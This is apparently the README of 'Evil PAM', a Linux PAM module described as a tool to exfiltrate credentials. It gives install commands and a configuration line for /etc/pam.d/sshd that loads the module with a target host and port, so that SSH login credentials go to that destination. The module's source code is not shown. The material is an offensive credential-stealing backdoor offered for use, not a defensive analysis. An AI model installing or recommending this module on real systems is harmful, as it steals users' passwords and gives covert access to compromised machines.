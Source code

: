# Evil PAM
PAM module to exfiltrate credentials

## Usage

Install the module:
```
apt install libpam0g-dev
git clone https://github.com/itasahobby/pam_evil.git
make install
```

Configure SSH to use the PAM module adding the following to `/etc/pam.d/sshd`:
```
auth       optional     pam_evil.so target=127.0.0.1 port=8888
```

## Mentions
In colaboration with [Dreg](https://github.com/David-Reguera-Garcia-Dreg/)

## References
* https://web.archive.org/web/20190523222819/https://fedetask.com/write-linux-pam-module/
* https://unix.stackexchange.com/questions/428437/pam-pam-sm-authenticate-try-to-get-get-user-and-password-of-non-esixting-users
